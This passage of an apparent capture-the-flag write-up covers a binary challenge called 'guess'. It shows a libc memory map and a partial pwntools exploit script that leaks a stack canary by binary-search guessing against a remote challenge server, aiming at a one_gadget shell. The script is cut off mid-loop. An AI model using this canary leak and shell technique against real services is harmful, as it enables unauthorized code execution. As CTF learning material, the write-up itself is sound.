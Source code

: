 ```
0x00007ff892e5b000 0x00007ff892e80000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ff892e80000 0x00007ff892ff8000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ff892ff8000 0x00007ff893042000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ff893042000 0x00007ff893043000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ff893043000 0x00007ff893046000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ff893046000 0x00007ff893049000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ff893049000 0x00007ff89304f000 0x0000000000000000 rw- 
0x00007ff89305e000 0x00007ff89305f000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ff89305f000 0x00007ff893082000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ff893082000 0x00007ff89308a000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ff89308b000 0x00007ff89308c000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ff89308c000 0x00007ff89308d000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ff89308d000 0x00007ff89308e000 0x0000000000000000 rw- 
0x00007fff0882a000 0x00007fff0884b000 0x0000000000000000 rw- [stack]
0x00007fff089c7000 0x00007fff089cb000 0x0000000000000000 r-- [vvar]
0x00007fff089cb000 0x00007fff089cd000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```
Finally, I was able to put all of this together into a working exploit script. I leak the canary and a libc address from the stack, then send input designed to get my onegadget to pop a shell. The exploit does not work 100% of the time, but it should succeed more often than not.
```
from pwn import *

#target = process('./guess')

#pid = gdb.attach(target, "\nb *main+356\n set disassembly-flavor intel\ncontinue")

target = remote('193.57.159.27', 55206)
elf = ELF('guess')

libc = ELF('libc6_2.31-0ubuntu9.2_amd64.so')
count = 0

i = 1
depth = 0
addition = 0
canary = 0
while True:
	print(target.recvuntil(b'(0-7)?'))
	target.sendline(str(0x20 + i).encode('ascii'))
	print(target.recvuntil(b'guess:'))
	my_guess = 0x100 // 2 + addition
	print(hex(my_guess))
	target.sendline(str(my_guess).encode('ascii'))
	result = target.recvuntil(b'Which')
	depth += 1
	if b'low' in result:
		if depth == 7:
			my_guess += 1
			canary += (0x10 ** (2 * i)) * my_guess
			print(hex(canary))
			i += 1
			depth = 0
			addition = 0
		else:
			addition += 0x100 // (2 ** (depth + 1))
	elif b'high' in result:
		if depth == 7:
			my_guess -= 1
			canary += (0x10 ** (2 * i)) * my_guess
			print(hex(canary))
			i += 1
```